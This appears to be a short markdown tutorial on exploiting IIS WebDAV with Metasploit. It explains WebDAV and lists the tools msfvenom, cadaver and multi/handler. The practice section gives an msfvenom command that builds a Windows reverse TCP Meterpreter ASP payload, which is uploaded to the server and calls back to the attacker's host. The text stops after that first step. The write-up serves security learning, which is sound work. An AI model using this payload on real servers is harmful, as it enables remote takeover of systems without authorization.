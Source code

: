# Exploiting IIS with Metasploit (WebDAV)

### What is WebDAV
Web Distributed Authoring and Versioning (WebDAV) is an HTTP protocol extension that allows users to collaboratively edit and manage files stored on remote web servers.


### Tools and Modules
- **Metasploit**


- **msfvenom** \
It is a payload generation tool that comes with the Metasploit Framework.
It lets attacker create custom malicious files that, **when executed or opened by a target, connect back to the attacker** and give control.

- **cadaver**\
Cadaver is a command-line WebDAV client available in Kali Linux that allows users to interact with WebDAV-enabled servers. 

- **multi/handler**\
metasploit module that essentially used to set up a listener for the malicurous that you created
<br>
<br>

### Practice

1. Upload malcious file\
Command breakdown\
Generate `payload` for Windows opens a `reverse TCP Meterpreter shell`\
`LHOST` is my attack machine's reachable IP address\
Listening port is `port 1234`\
Save generated ASP into a file called `meterpreter.asp` -> Upload the file
```bash
-# msfvenom -p windows/meterpreter/reverse_tcp LHOST= <IP address> LPORT= 1234 -f asp> meterpreter.asp
```


